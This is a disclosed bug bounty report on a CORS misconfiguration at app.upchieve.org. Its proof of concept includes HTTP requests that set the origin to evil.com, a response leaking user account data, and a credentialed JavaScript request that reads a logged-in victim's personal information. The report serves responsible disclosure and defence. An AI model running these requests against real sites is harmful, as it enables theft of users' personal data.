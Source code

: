 # Cross-origin resource sharing misconfig | steal user information 

## Report Details
- **Report ID**: 1183601
- **URL**: https://hackerone.com/reports/1183601
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-05-04T11:26:39.002Z
- **Disclosed**: 2021-06-15T16:58:21.998Z

## Reporter
- **Username**: n1had
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: upchieve

## Vulnerability Information
## Summary

An HTML5 cross-origin resource sharing (CORS) policy controls whether and how content running on other domains can perform two-way interaction with the domain that publishes the policy. The policy is fine-grained and can apply access controls per-request based on the URL and other features of the request.
Trusting arbitrary origins effectively disables the same-origin policy, allowing two-way interaction by third-party web sites. Unless the response consists only of unprotected public content, this policy is likely to present a security risk.
If the site specifies the header Access-Control-Allow-Credentials: true, third-party sites may be able to carry out privileged actions and retrieve sensitive information. Even if it does not, attackers may be able to bypass any IP-based access controls by proxying through users' browsers.

#POC1

#Ruquested .

1- 

```javascript

GET /api/user HTTP/1.1
Host: app.upchieve.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate

```
2- we can add `Origin: evil.com`

```javascript

GET /api/user HTTP/1.1
Host: app.upchieve.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: evil.com
```

#Response

```javascript

HTTP/1.1 200 OK
Date: Tue, 04 May 2021 11:21:25 GMT
Content-Type: application/json; charset=utf-8
Connection: close
x-powered-by: Express
access-control-allow-origin: evil.com


{"user":{"_id":"6088429736785e00232c57de","verified":true,"verifiedEmail":true,"verifiedPhone":false,"isVolunteer":false,"isAdmin":false,"isBanned":true,"isTestUser":false,"isFakeUser":false,"isDeactivated":false,"pastSessions":["609069b08b925400233afeb7"],"type":"Student","firstname":"sfsf","lastname":"dfe","email":"2c5a43ddb7@firemailbox.club","zipCode":"77777","approvedHighschool":"5f6273fa7674f035e46b6af0","createdAt":"2021-04-27T16:57:59.882Z","lastActivityAt":"2021-05-03T21:22:08.243Z","referralCode":"YIhClzZ4XgAjLFfe","__v":0}}

```
#POC2

1- open https://example.com in browser then inspect the page and go to console.
2- run the following code in console and you would find it pops up user information

```

<html>
<script>
var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://app.upchieve.org/api/user',true); req.withCredentials = true; req.send('{}'); function reqListener() { alert(this.responseText); };
</script>
</html>

```
Open above code in any browser and you would find it pops up user information like the attachment.


#How To Fix

Rather than using a wildcard or programmatically verifying supplied origins, use a whitelist of trusted domains.

## Impact

Attacker would treat many victims to visit attacker's website, if victim is logged in, then his personal information is recorded in attacker's server

## Attachments
- crossdomain.JPG
- cross.html
